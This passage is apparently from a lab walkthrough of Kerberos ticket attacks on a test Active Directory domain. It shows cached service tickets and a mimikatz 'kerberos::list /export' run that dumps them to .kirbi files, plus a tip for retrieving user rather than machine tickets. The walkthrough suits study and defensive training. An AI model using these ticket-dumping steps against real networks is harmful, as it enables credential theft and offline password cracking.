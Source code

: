 ```console
        Server: MSSQLSvc/SVR.lab.vx:1433 @ LAB.VX
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 4/16/2022 10:00:51 (local)
        End Time:   4/16/2022 19:53:54 (local)
        Renew Time: 4/23/2022 9:53:54 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called: DC.lab.vx

#2>     Client: mike @ LAB.VX
        Server: ldap/DC.lab.vx/lab.vx @ LAB.VX
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 4/16/2022 9:55:16 (local)
        End Time:   4/16/2022 19:53:54 (local)
        Renew Time: 4/23/2022 9:53:54 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC.lab.vx
```

### 3.1.2. Dump tickets
```console
mimikatz # kerberos::list /export

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 16/4/2022 9:53:54 am ; 16/4/2022 7:53:54 pm ; 23/4/2022 9:53:54 am
   Server Name       : krbtgt/LAB.VX @ LAB.VX
   Client Name       : mike @ LAB.VX
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
   * Saved to file     : 0-40e10000-mike@krbtgt~LAB.VX-LAB.VX.kirbi

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 16/4/2022 10:00:51 am ; 16/4/2022 7:53:54 pm ; 23/4/2022 9:53:54 am
   Server Name       : MSSQLSvc/SVR.lab.vx:1433 @ LAB.VX
   Client Name       : mike @ LAB.VX
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
   * Saved to file     : 1-40a10000-mike@MSSQLSvc~SVR.lab.vx~1433-LAB.VX.kirbi

[00000002] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 16/4/2022 9:55:16 am ; 16/4/2022 7:53:54 pm ; 23/4/2022 9:53:54 am
   Server Name       : ldap/DC.lab.vx/lab.vx @ LAB.VX
   Client Name       : mike @ LAB.VX
   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
   * Saved to file     : 2-40a50000-mike@ldap~DC.lab.vx~lab.vx-LAB.VX.kirbi
```

- ☝️ **Note**: to retrieve user kerberos tickets, do not use `privilege::debug` + `token::elevate` in mimikatz; doing so impersonates the `SYSTEM` token and ends up retrieving machine kerberos tickets instead

